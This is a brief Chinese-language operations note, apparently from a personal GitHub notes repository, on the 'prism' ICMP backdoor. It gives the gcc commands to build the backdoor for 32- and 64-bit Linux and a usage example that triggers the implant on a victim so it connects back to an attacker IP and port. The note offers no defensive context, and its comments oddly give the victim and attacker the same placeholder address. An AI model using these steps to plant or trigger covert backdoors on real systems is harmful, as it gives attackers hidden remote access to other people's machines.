

# ICMP后门

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81-ICMP%E5%90%8E%E9%97%A8.md)

利用ICMP中可控的data字段进行数据传输

项目地址：

```
https://github.com/andreafabrizi/prism
```

**使用：**

首先编译.c文件【具体要求可以看项目里的介绍】

```bash
Linux 64bit：
apt-get install libc6-dev-amd64
gcc -DDETACH -m64 -Wall -s -o prism prism.c

Linux 32bit：
apt-get install libc6-dev-i386
gcc -DDETACH -m32 -Wall -s -o prism prism.c
```

运行：

```
./prism Inf0
./sendPacket.py 203.0.113.1 p4ssw0rd 203.0.113.1 8888
#203.0.113.1 is the victim machine running prism backdoor
#p4ssw0rd is the key
#203.0.113.1 is the attacker machine address
#8888 is the attacker machine port
```

`

`
